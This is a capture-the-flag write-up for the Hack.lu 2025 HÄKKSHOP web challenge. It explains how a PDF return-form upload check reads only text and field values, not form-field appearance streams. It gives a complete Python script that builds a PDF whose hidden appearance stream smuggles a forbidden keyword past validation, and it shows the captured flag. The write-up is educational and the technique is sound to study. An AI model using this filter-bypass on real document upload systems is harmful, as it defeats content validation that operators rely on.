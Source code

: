 ## Hack.lu CTF 2025 - HÄKKSHOP 172 Write-up

![Title](images/Title.png)

### Step 1: Initial Analysis and Source Code Review

The challenge provides a web application mimicking an IKEA-like store called FLUX, with a customer support section for returns. The returns page allows uploading a filled-in PDF return form. The goal is to obtain the flag, which is hidden in the application's logic.

We are given the source code of the Node.js application using Express, pdfjs, and Puppeteer. Key parts:

- PDF validation in `validate_pdf()` checks text content and annotations for unreleased products like "FLAG".
- If valid, it flattens the PDF using Puppeteer (with JavaScript disabled) and renders it.
- Then, in `get_did_you_know()`, it extracts text from the flattened PDF and checks for product names, including "FLAG", which reveals the flag if present.

The vulnerability: Validation reads text and field values, but not appearance streams of form fields. However, when flattening with Puppeteer, the appearance becomes part of the text content, extractable later.

![Returns Page](images/2.png)

### Step 2: Crafting the Exploit PDF

To bypass validation, create a PDF with a text field widget where:

- Field value (`/V`) is empty (no "FLAG" in validation).
- Custom appearance stream (`/AP /N`) draws "FLAG" as text.

Use ReportLab to generate a base PDF mimicking the return form, then pdfrw to add the widget annotation.

The exploit script (`exploit_pdf.py`):

```python
from reportlab.pdfgen import canvas
from reportlab.lib.colors import yellow, blue, black
import pdfrw

# Step 1: Create the base PDF using reportlab
def create_base_pdf(filename):
    c = canvas.Canvas(filename, pagesize=(612, 792))  # Standard US Letter size in points (8.5x11 inches)

    # Draw the top logo (approximating the image)
    c.setFillColor(blue)
    c.roundRect(100, 700, 150, 50, 10, stroke=0, fill=1)
    c.setFont("Helvetica-Bold", 36)
    c.setFillColor(yellow)
    c.drawString(110, 710, "FLUX")

    # Draw the text content
    c.setFont("Helvetica", 14)
    c.setFillColor(black)
    c.drawString(100, 660, "Return Form")

    c.setFont("Helvetica", 12)
    c.drawString(100, 620, "Not happy with your purchase?")
    c.drawString(100, 580, "Please write us which products you want to return, and why you did not like them.")
    c.drawString(100, 540, "We are always trying to improve our service.")
    c.drawString(100, 500, "A customer support agent will happily help you out in 3-5 business days:")

    # Bottom thank you
    c.drawString(100, 100, "Thank you for shopping at")
    c.setFillColor(blue)
    c.roundRect(300, 90, 60, 20, 5, stroke=0, fill=1)
    c.setFont("Helvetica-Bold", 12)
    c.setFillColor(yellow)
    c.drawString(305, 93, "FLUX")

    c.save()

# Step 2: Add the exploit form field using pdfrw
def add_exploit_field(input_pdf, output_pdf):
    reader = pdfrw.PdfReader(input_pdf)
    page = reader.pages[0]

    # Create Annots if not exists
    annots_key = pdfrw.PdfName.Annots
    if annots_key not in page:
        page[annots_key] = pdfrw.PdfArray()
    annots = page[annots_key]

    # Create the widget annotation (text field)
    widget = pdfrw.PdfDict()
    widget[pdfrw.PdfName.Type] = pdfrw.PdfName.Annot
    widget[pdfrw.PdfName.Subtype] = pdfrw.PdfName.Widget
    widget[pdfrw.PdfName.Rect] = pdfrw.PdfArray([100, 400, 500, 450])  # Position in the blank area (adjust as needed)
    widget[pdfrw.PdfName.FT] = pdfrw.PdfName.Tx  # Text field
    widget[pdfrw.PdfName.T] = pdfrw.PdfString.encode('products')  # Field name
    widget[pdfrw.PdfName.V] = pdfrw.PdfString.encode('')  # Empty value
    widget[pdfrw.PdfName.DV] = pdfrw.PdfString.encode('')  # Empty default value
    widget[pdfrw.PdfName.DA] = pdfrw.PdfString.encode('/Helv 12 Tf 0 g')  # Default appearance (not used since custom AP)
    widget[pdfrw.PdfName.F] = 4  # Annotation flags: 4 = Print

    # Create the appearance dictionary
    ap_dict = pdfrw.PdfDict()
    ap_n = pdfrw.PdfDict()
    ap_n[pdfrw.PdfName.Type] = pdfrw.PdfName.XObject
    ap_n[pdfrw.PdfName.Subtype] = pdfrw.PdfName.Form
    ap_n[pdfrw.PdfName.FormType] = 1
    ap_n[pdfrw.PdfName.BBox] = pdfrw.PdfArray([0, 0, 400, 50])  # Width and height of the field
    ap_n[pdfrw.PdfName.Matrix] = pdfrw.PdfArray([1, 0, 0, 1, 0, 0])

    # Resources for fonts
    resources = pdfrw.PdfDict()
    fonts = pdfrw.PdfDict()
    helv = pdfrw.PdfDict()
    helv[pdfrw.PdfName.Type] = pdfrw.PdfName.Font
    helv[pdfrw.PdfName.Subtype] = pdfrw.PdfName.Type1
    helv[pdfrw.PdfName.BaseFont] = pdfrw.PdfName.Helvetica
    fonts[pdfrw.PdfName.Helv] = helv
    resources[pdfrw.PdfName.Font] = fonts
    ap_n[pdfrw.PdfName.Resources] = resources

    # Content stream to draw "FLAG"
    stream_content = 'q\nBT\n/Helv 12 Tf\n0 g\n10 20 Td\n(FLAG) Tj\nET\nQ'
    ap_n.stream = stream_content

    ap_dict[pdfrw.PdfName.N] = ap_n

    widget[pdfrw.PdfName.AP] = ap_dict

    # Make widget indirect if necessary
    widget.indirect = True

    # Add to annotations
    annots.append(widget)

    # Add to AcroForm
    acro_key = pdfrw.PdfName.AcroForm
    if acro_key not in reader.Root:
        reader.Root[acro_key] = pdfrw.PdfDict()
    acro = reader.Root[acro_key]
    fields_key = pdfrw.PdfName.Fields
    if fields_key not in acro:
        acro[fields_key] = pdfrw.PdfArray()
    acro[fields_key].append(widget)
    acro[pdfrw.PdfName.NeedAppearances] = True

    # Write the modified PDF
    pdfrw.PdfWriter().write(output_pdf, reader)

# Main execution
base_pdf = 'base.pdf'
modified_pdf = 'exploit_return_form.pdf'

create_base_pdf(base_pdf)
add_exploit_field(base_pdf, modified_pdf)

print(f"Modified PDF created: {modified_pdf}")
print("Upload this PDF to the server to get the flag.")
```

Run the script to generate `exploit_return_form.pdf`.

![Script Execution](images/1.png)

### Step 3: Uploading the PDF and Retrieving the Flag

Upload the generated PDF via the returns form. The validation passes since "FLAG" isn't in text or values. Puppeteer flattens it, embedding "FLAG" in the content.

The response shows "did you know" facts, including the flag for "FLAG".

![Upload Received with Flag](images/3.png)

### Flag
Flag: `flag{1kea3n5ch_15_our_new_hold_music}`
